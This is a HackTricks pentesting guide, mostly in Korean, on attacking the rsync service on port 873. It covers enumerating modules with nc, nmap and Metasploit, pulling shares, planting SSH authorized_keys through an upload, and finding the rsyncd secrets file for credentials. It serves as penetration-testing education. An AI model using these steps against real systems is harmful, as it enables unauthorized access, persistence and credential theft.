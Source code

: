 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **기본 정보**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync**는 컴퓨터와 외장 하드 드라이브 간 및 [네트워크화된](https://en.wikipedia.org/wiki/Computer_network) [컴퓨터](https://en.wikipedia.org/wiki/Computer) 간에 [파일](https://en.wikipedia.org/wiki/Computer_file)을 효율적으로 [전송](https://en.wikipedia.org/wiki/File_transfer)하고 [동기화](https://en.wikipedia.org/wiki/File_synchronization)하는 유틸리티로, [수정 시간](https://en.wikipedia.org/wiki/Timestamping_\(computing\))과 파일의 크기를 비교하여 작동합니다.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) 일반적으로 [유닉스 계열](https://en.wikipedia.org/wiki/Unix-like) [운영 체제](https://en.wikipedia.org/wiki/Operating_system)에서 발견됩니다. rsync 알고리즘은 [델타 인코딩](https://en.wikipedia.org/wiki/Delta_encoding)의 일종이며, 네트워크 사용량을 최소화하는 데 사용됩니다. [Zlib](https://en.wikipedia.org/wiki/Zlib)는 추가적인 [데이터 압축](https://en.wikipedia.org/wiki/Data_compression)을 위해 사용될 수 있으며,[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) [SSH](https://en.wikipedia.org/wiki/Secure_Shell) 또는 [stunnel](https://en.wikipedia.org/wiki/Stunnel)은 보안을 위해 사용될 수 있습니다.

**기본 포트:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## 열거

### 배너 및 수동 통신
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **공유 폴더 열거하기**

**Rsync 모듈**은 **비밀번호로 보호될 수 있는 디렉토리 공유**로 인식됩니다. 사용 가능한 모듈을 식별하고 비밀번호가 필요한지 확인하기 위해 다음 명령어를 사용합니다:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
일부 공유가 목록에 나타나지 않을 수 있으며, 이는 숨겨져 있을 가능성이 있습니다. 또한, 일부 공유에 접근하는 것은 특정 **credentials**에 제한될 수 있으며, 이는 **"Access Denied"** 메시지로 표시됩니다.

### [**Brute Force**](../generic-hacking/brute-force.md#rsync)

### 수동 Rsync 사용

**module list**를 얻은 후, 작업은 인증이 필요한지 여부에 따라 달라집니다. 인증 없이, 공유 폴더에서 로컬 디렉토리로 파일을 **listing**하고 **copying**하는 것은 다음을 통해 수행됩니다:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
이 프로세스는 **재귀적으로 파일을 전송**하며, 파일의 속성과 권한을 보존합니다.

**자격 증명**을 사용하면 공유 폴더에서 목록을 작성하고 다운로드할 수 있으며, 이때 비밀번호 입력 프롬프트가 나타납니다:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
콘텐츠를 **업로드**하려면, 접근을 위한 _**authorized\_keys**_ 파일과 같은 파일을 사용하세요:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

rsyncd 구성 파일을 찾으려면 다음을 실행하십시오:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
이 파일 내에서, _secrets file_ 매개변수는 rsyncd 인증을 위한 **사용자 이름과 비밀번호**가 포함된 파일을 가리킬 수 있습니다.

## References

* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
